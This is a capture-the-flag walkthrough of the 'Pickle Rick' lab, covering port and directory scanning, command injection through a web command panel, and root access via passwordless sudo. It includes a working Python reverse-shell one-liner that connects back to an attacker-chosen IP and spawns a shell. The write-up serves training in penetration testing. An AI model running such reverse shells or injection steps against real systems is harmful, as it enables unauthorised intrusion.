# Introduction

Pickle Rick is a Rick and Morty themed CTF challenge. It requires you to exploit the webserver and find **3** ingredients that will help Rick make his potion to transform himself back to human from a pickle.

This is an easy challenge that can teach you directory scanning, command injection, Sudo privilege escalation, etc.


---

# Nmap

let's start with the Nmap scan.

```bash
nmap -p- -A -T4 10.10.159.88 -oN nmap/fullscan
```



This may take a while. Why not grab a juice?




**SSH** and **Webserver** is open. SSH can wait, let's check the webserver.



Nothing interesting here, let's check the source code!.



There's a comment by Rick. His Username is **R1ckRul3s.** Hmmm a username? there's no login page to use the username. Maybe SSH login?. let's try it.

```bash
ssh R1ckRul3s@10.10.159.88
```



SSH is kicking us out. We cant use SSH now.

---

# Directory Scanning

Lets fire up the **Dirbuster** and scan the directories. I tried looking for **php** and **txt** files.




We got

* robots.txt
* login.php
* portal.php

> Assets and Icons directory had a bunch of GIF and JPEG images with other static files. I tried Steganography against JPEG images but no luck.

Let's check **robots.txt** file.



`Wubbalubbadubdub` ? Interesting, maybe a password? Let's save it, It may come handy later.


Now lets check **login.php**

A login page finally!, let's try the username `R1ckRul3s` and the password `Wubbalubbadubdub`.



And it worked! We're in **portal.php**




---

# Command Injection

Remember **portal.php** ?. Its says command panel. Can it run Linux commands?. Let's check it out.



Yes, It does. Let's check the files.



`Sup3rS3cretPickl3Ingred.txt`? It looks like we found our first ingredient!.

let's see what's inside the `Sup3rS3cretPickl3Ingred.txt` using `cat` command.

```bash
cat Sup3rS3cretPickl3Ingred.txt
```



Uh oh!. We can't use `cat` command. Let's try `less` command then.



Ah! Finally one ingredient found. 2 more to go. Hold on Rick!.


---

# Reverse Shell

Since we have command injection ability, let's get a reverse shell. Head to [Pentestmonkey reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Start a netcat listener in the terminal.



and run 

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Python 2 wasn't available but python 3 was. So I tired reverse shell with python 3.
> Replace your IP address with \<YOUR IP\>

And we got the shell! 💪



Now let's find other ingredients.

`ls /home` revealed the **rick** folder.



let's check the /rick folder.



Huh! the second ingredient. cool.



The 2nd Ingredient is **1 jerry tear**.

> I checked for 3rd ingredient but unfortunately i can't able to find it. It seems like it is hidden inside /root folder. We need the root access to get the 3rd ingredient.

# Privilege Escalation

Let's check if we have any root access. 

`sudo -l`



`sudo -l` shows that we can run any command as root without password. Hurray!


Let's get the root shell now.

`sudo /bin/bash`



Finally we have root access!

Let's find the 3rd ingredient to save Rick!.



As I thought there's the 3rd ingredient. Let's get it!.



We got all the 3 ingredients. Time to save Rick.



And we are Done!. Hurray!


---

# Summary

* Nmap scan showed 2 ports open, 22 (ssh), and 80 (webserver).
* SSH denied access for any credentials making it useless for this challenge.
* port 80 is up and running. checking its source revealed the username.
* The Directory Scanner against webserver revealed login.php,robots.txt,portal.php
* The robots.txt file revealed the password.
* The credentials obtained are used in login.php which redirected to portal.php on successful login.
* portal page had command injection vulnerability which then used to get the 1st ingredient.
* A reverse shell is obtained using command injection.
* The home directory contained a rick folder which then contained the 2nd ingredient.
* sudo -l command revealed that we can run any command as root without password.
* sudo /bin/bash to obtain a root shell.
* The /root folder contained the 3rd ingredient.

# Before you leave

If you have any constructive criticism or any questions, please drop an email at [hello@dvlper.in](mailto:hello@dvlper.in) or ping me in [instagram](https://instagram.com/dvlp.er). I'll be happy to hear your feedback.

Follow me on  [ Github](https://github.com/devwaseem), [Twitter](https://twitter.com/iamwaseem99), [Instagram](https://www.instagram.com/dvlp.er/), [Facebook](https://www.facebook.com/dvlprwaseem), [LinkedIn](https://www.linkedin.com/in/devwaseem/).

